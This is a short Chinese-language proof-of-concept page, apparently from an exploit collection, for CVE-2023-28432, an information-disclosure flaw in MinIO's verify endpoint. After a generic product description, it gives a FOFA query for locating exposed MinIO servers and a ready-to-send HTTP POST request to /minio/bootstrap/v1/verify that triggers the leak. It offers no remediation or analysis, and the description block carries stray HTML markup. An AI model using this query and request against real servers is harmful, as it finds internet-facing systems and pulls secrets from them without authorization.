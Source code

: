 # MinIO verify 接口敏感信息泄露漏洞（CVE-2023-28432）

    ## MinIO verify 接口敏感信息泄露漏洞（CVE-2023-28432）

## 漏洞描述：

```
<span style=\"color: var(--primaryFont-color);\">MinIO 是一种开源的对象存储服务，它兼容 Amazon S3 API，可以在私有云或公有云中使用。MinIO 是一种高性能、高可用性的分布式存储系统，它可以存储大量数据，并提供对数据的高速读写能力。MinIO 采用分布式架构，可以在多个节点上运行，从而实现数据的分布式存储和处理。
```

## fofa

```
title="MinIO Browser" || banner="MinIO" || header="MinIO"
```

## poc

```
POST /minio/bootstrap/v1/verify HTTP/1.1
Host: 
User-Agent: Mozilla/5.0
Upgrade-Insecure-Requests: 1
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: en-US;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```
